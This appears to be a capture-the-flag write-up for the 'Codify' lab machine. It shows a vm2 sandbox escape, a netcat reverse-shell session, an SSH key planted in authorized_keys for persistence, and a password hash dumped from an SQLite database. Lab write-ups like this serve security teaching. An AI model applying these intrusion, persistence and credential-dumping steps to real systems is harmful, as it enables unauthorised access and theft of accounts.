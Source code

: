 ![index](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/index.png)

it appears that the website is some kinda sandbox to run `node js` application with some limitations such as blacklisting some modules that allows us to run OS commands

![limitations](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/limitations.png)

of course, one should never take these things at face value and manual tests are are must so I scrambled some test that tries to run commands but none of it worked, I could only get some basic info about the machine using the `os` model such as the architecture, the `tmpdir` ..


![editor](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/editor.png)

moving on, browsing to `/about` tells you that the website uses vm2 library that is `widely used and trusted tool for sandboxing JavaScript`, looking it up, I found this (sandbox bypass)[https://security.snyk.io/vuln/SNYK-JS-VM2-5537100] that allows us to run code from any potential blacklisted library using the view allowed ones


![rce](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/htb/codify/rce.png)

```bash
$ nc -lnvp 1000
Connection from 10.10.11.239:59734
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ ls .ssh
ls .ssh
ls: cannot access '.ssh': No such file or directory
svc@codify:~$ mkdir .ssh
mkdir .ssh
svc@codify:~$ echo '[MY_SSH_PUBLIC_KEY]' > .ssh/authorized_keys
echo '[MY_SSH_PUBLIC_KEY]' > .ssh/authorized_keys
svc@codify:~$ ^CExiting.
(14:23:14) [ archiso@jeff | ~ ]
$ ssh svc@codify.htb
Enter passphrase for key '/home/jeff/.ssh/id_rsa':
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

svc@codify:~$
```

# joshua

looking around I found an sqlite3 database with `joshua`'s password laying in `/var/www/contact`

```bash
svc@codify:/var/www/contact$ ls
index.js  open  package.json  package-lock.json  templates  tickets.db
svc@codify:/var/www/contact$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ sqlite3 tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite>
```
